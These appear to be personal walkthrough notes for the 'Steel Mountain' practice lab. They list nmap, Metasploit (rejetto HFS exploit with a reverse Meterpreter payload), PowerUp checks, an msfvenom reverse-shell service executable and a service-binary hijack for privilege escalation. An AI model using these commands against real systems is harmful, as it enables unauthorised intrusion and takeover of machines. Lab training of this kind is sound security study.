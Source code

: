 ### Steel Mountain - with Metasploit ###

nmap Target_IP -sV -Pn
** Target port: 8080
** Vulnerable service: HttpFileServer httpd 2.3
searchsploit -w HttpFileServer

msfconsole
search rejetto
set rhosts 10.10.217.123
set rport 8080
set lhost 10.9.189.41
set payload windows/meterpreter/reverse_tcp 
options
run

cd ../../../../../../../
cd Desktop\\

Search on internet and download: github powersploit powerup
upload PowerUp.ps1

load powershell
powershell_shell
. ./PowerUp.ps1  ---To save PowerUp.ps1 in memory
Invoke-AllChecks ---Check for "CanRestart" option to be True and Directory to the application to be writable.

*** Creating payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.189.41 LPORT=3325 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe

nc -lvnp LPORT

upload ASCService.exe

shell
sc stop AdvancedSystemCareService9
exit

cp ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"

shell
sc start AdvancedSystemCareService9





